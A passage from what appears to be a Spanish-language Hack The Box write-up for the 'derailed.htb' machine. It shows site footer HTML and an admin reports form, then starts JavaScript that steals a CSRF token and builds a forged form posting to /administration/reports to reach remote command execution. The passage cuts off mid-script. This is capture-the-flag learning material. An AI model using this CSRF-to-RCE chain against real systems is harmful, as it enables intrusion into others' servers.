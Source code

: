 ```html
        <a class="btn btn-outline-light btn-social mx-1" href="#!"><i class="fab fa-fw fa-linkedin-in"></i></a>
        <a class="btn btn-outline-light btn-social mx-1" href="#!"><i class="fab fa-fw fa-dribbble"></i></a>
      </div>
      <!-- Footer About Text-->
      <div class="col-lg-4">
        <h4 class="text-uppercase mb-4">About derailed.htb</h4>
        <p class="lead mb-0">
          derailed.htb is a free to use service, which allows users to create notes within a few seconds.
        </p>
      </div>
    </div>
  </div>
</footer>
<!-- Copyright Section-->
<div class="copyright py-4 text-center text-white">
  <div class="container"><small>Copyright &copy; derailed.htb 2022</small></div>
</div>

<!-- Bootstrap core JS-->
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js"></script>
<script src="/js/scripts.js"></script>
<script src="https://cdn.startbootstrap.com/sb-forms-latest.js"></script>
</body>
</html>
```

## CSRF a RCE

Investigando un poco el código de la web, nos percatamos de que hay un formulario

```html
<h3>Reports</h3>
      <form method="post" action="/administration/reports">
        <input type="hidden" name="authenticity_token" id="authenticity_token" value="TePjtRtHDIKp0aX56JSC_Ii-Mz8h8FkId6lTCYik2FlEAh6MwrFo7Zg48z55XTX2KK1nRd9apwc0FDeO0ndEcA" autocomplete="off" />
        <input type="text" class="form-control" name="report_log" value="report_20_07_2023.log" hidden>
        <label class="pt-4"> 20.07.2023</label>
        <button name="button" type="submit">
          <i class="fas fa-download me-2"></i>
          Download
        </button>
      </form>
```

Ahora usando este código javascript, podemos realizar una ejecución remota de comandos

```sh
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://derailed.htb:3000/administration", true);
xmlHttp.send( null );

setTimeout(function() {
    var doc = new DOMParser().parseFromString(xmlHttp.responseText, 'text/html');
    var token = doc.getElementById('authenticity_token').value;
    var newForm = new DOMParser().parseFromString('<form id="badform" method="post" action="/administration/reports">    <input type="hidden" name="authenticity_token" id="authenticity_token" value="placeholder" autocomplete="off">    <input id="report_log" type="text" class="form-control" name="report_log" value="placeholder" hidden="">    <button name="button" type="submit">Submit</button>', 'text/html');
    document.body.append(newForm.forms.badform);
```